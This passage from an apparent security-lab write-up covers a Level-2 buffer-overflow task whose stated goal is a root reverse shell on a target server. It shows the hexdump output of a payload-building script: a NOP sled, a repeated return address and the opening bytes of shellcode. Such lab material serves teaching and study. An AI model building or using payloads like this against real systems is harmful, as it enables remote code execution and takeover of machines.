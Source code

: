 ![alt text](image-11.png)


## Task 3: Level-2 Attack  (20 คะแนน) 



### Objective

- Your job is to construct one payload to exploit the buffer overflow vulnerability on the server, 
and get a root shell on the target server (using the reverse shell technique)
- Range of the buffer size (in bytes): [100, 300] 
- Only allowed to construct one payload that works for any buffer size within this 
range.

![alt text](image-24.png)

```
[10/09/25]seed@VM:~/.../attack-code$ python3 dynamic_buffer_size.py 
0x90
==============================================================================
PAYLOAD HEXDUMP WITH ACTUAL ADDRESSES (Total: 517 bytes)
Buffer starts at: 0xffffcfb8
==============================================================================
ffffcfb8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffcfc8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffcfd8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffcfe8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffcff8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd008: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd018: 90 90 90 90 ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd028: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd038: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd048: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd058: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd068: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd078: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd088: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd098: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0a8: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0b8: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0c8: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0d8: ec d0 ff ff ec d0 ff ff ec d0 ff ff ec d0 ff ff  |................|
ffffd0e8: ec d0 ff ff 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd0f8: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd108: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd118: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  |................|
ffffd128: 90 90 90 90 90 90 90 90 90 90 90 90 90 eb 29 5b  |..............)[|
```